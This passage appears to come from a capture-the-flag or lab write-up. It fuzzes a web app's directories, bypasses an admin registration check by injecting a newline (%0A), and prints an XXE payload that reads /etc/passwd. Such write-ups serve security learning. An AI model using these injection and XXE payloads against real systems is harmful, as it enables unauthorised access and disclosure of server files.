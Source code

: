 ```
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.php                    [Status: 403, Size: 284, Words: 21, Lines: 11, Duration: 161ms]
register.php            [Status: 200, Size: 715, Words: 49, Lines: 28, Duration: 163ms]
index.html              [Status: 200, Size: 406, Words: 138, Lines: 25, Duration: 1106ms]
.html                   [Status: 403, Size: 285, Words: 21, Lines: 11, Duration: 6138ms]
admin.php               [Status: 200, Size: 663, Words: 45, Lines: 26, Duration: 210ms]
scripts                 [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 187ms]
forms.php               [Status: 200, Size: 2334, Words: 460, Lines: 112, Duration: 258ms]
report                  [Status: 200, Size: 16912, Words: 69, Lines: 21, Duration: 159ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 245ms]
dashboard.php           [Status: 302, Size: 908, Words: 87, Lines: 56, Duration: 164ms]
```

Let's go to `register.php`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250425125731.png)

Let's submit the request to our proxy to handle it better:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250425130038.png)

As we can notice, it does not allow us to register with `admin@bank.a`, but, if we recall the strings correctly, this is using `system()`, which mean that if we are able to do it correctly, our commands may be interpreted and we can inject stuff like `%0A` or `%09`, let's try it out:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250425130239.png)

There we go `%0A` seems to do the trick, let's go inside the admin panel:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250425130320.png)


The `command` one seems odd, let's check it out:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250425130350.png)

Once again, let's submit to our proxy:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250425130433.png)

The format of it may suggest it is vulnerable to `XXE`, let's try some stuff then, for example, a basic `LFI`:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <name>
&xxe;</name>
<search>&xxe;
</search>
</root>
```
